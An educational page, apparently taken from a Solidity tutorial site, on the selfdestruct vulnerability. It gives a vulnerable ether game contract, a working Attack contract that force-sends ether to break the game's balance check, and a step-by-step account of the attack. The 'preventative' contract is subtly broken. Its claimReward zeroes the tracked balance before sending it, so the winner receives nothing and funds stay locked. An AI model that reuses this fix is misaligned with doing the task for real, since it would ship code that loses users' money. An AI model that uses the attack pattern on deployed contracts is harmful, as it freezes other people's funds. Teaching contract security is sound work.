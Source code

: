 # Self Destruct
From https://solidity-by-example.org/hacks/self-destruct/

The `selfdestruct` operation in Solidity is a special function that allows a contract to be deleted from the blockchain. This creates a significant vulnerability because:

- It forcibly sends all contract balance to a designated address
- The receiving contract cannot reject these funds
- This forced transfer can break contract invariants that rely on balance checks
- Once a contract is self-destructed, all its code and storage is removed from the blockchain

## Why is this dangerous?

In smart contracts that rely on precise balance checks, `selfdestruct` can be used to forcibly send ETH and manipulate the contract's balance. This is particularly dangerous because:
1. The receiving contract has no way to prevent the incoming ETH
2. Balance checks using `address(this).balance` become unreliable
3. Game mechanics or financial logic can be broken by unexpected balance changes

## Example

### Vulnerable Code
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

// The goal of this game is to be the 7th player to deposit 1 Ether.
// Players can deposit only 1 Ether at a time.
// Winner will be able to withdraw all Ether.

contract EtherGame {
    uint256 public constant TARGET_AMOUNT = 7 ether;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        uint256 balance = address(this).balance;
        require(balance <= TARGET_AMOUNT, "Game is over");

        if (balance == TARGET_AMOUNT) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent,) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}
```

### Exploit Code
```solidity
contract Attack {
    EtherGame etherGame;

    constructor(EtherGame _etherGame) {
        etherGame = EtherGame(_etherGame);
    }

    function attack() public payable {
        // You can simply break the game by sending ether so that
        // the game balance >= 7 ether

        // cast address to payable
        address payable addr = payable(address(etherGame));
        selfdestruct(addr);
    }
}
```

The attack works as follows:
1. Players start depositing 1 ETH each into the game normally
2. Before the 7th player deposits, an attacker deploys the Attack contract
3. The attacker sends ETH to the Attack contract and calls `attack()`
4. `selfdestruct` forces ETH into the game contract, pushing its balance over 7 ETH
5. The game is now broken because:
   - No more deposits can be made (`balance <= TARGET_AMOUNT` check fails)
   - No one can become the winner (balance will never exactly equal TARGET_AMOUNT)
   - Any ETH already in the contract becomes permanently locked

## Preventative Techniques
Don't rely on address(this).balance
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

contract EtherGame {
    uint256 public constant TARGET_AMOUNT = 7 ether;
    uint256 public balance;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        balance += msg.value;
        require(balance <= TARGET_AMOUNT, "Game is over");

        if (balance == TARGET_AMOUNT) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");
        balance = 0;
        (bool sent,) = msg.sender.call{value: balance}("");
        require(sent, "Failed to send Ether");
    }
}
```